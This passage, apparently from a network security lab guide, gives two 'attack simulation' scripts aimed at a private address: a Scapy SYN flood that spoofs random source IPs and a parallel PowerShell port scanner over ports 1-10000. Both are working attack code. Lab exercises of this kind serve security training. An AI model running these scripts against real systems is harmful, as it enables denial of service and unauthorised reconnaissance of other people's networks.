 ### Part 4: Attack Simulation Examples

#### 1. DDoS Simulation (SYN Flood)

**Using Scapy:**

```python
# syn_flood.py
from scapy.all import *
import random

target = "192.168.100.1"
target_port = 80
iface = "Ethernet"

print("Starting SYN flood...")

for i in range(1000):
    # Random source IP
    src_ip = f"192.168.{random.randint(1,254)}.{random.randint(1,254)}"
    
    # SYN packet
    packet = IP(src=src_ip, dst=target)/TCP(dport=target_port, flags="S")
    send(packet, iface=iface, verbose=0)
    
    if i % 100 == 0:
        print(f"Sent {i} packets...")

print("Done!")
```

#### 2. Port Scan

**Using PowerShell:**

```powershell
# fast_port_scan.ps1
$target = "192.168.100.1"
$ports = 1..10000

Write-Host "Scanning $target (fast mode)..."

$ports | ForEach-Object -Parallel {
    $tcpClient = New-Object System.Net.Sockets.TcpClient
    try {
        $tcpClient.ConnectAsync($using:target, $_).Wait(100)
        if ($tcpClient.Connected) {
            Write-Host "Port $_ is OPEN" -ForegroundColor Green
        }
    } catch {}
    $tcpClient.Close()
} -ThrottleLimit 100

Write-Host "Scan complete!"
```
